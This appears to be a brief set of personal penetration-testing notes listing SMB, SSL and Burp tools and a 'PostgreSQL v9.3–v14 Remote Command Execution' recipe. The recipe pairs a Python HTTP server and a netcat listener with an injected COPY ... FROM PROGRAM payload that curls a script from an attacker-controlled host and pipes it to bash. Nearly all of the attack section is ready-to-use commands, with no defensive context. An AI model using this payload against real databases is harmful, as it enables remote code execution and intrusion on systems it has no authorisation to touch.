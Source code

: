 # topic 
- windows
- smbclient|smbmap
- openssl s_client -connect <host:port>
- BurpSuite
- HackTricks>postgresql-injection
- disown->used to remove a job from the job list of the current shell.

## PostgreSQL v9.3–v14 - Remote Command Execution (RCE)
- python3 -m http.server 80
- nc -nlvp 433
- Burp>`COPY+cmd_exec+FROM+PROGRAM+'curl+<host>:<port>/test|bash`

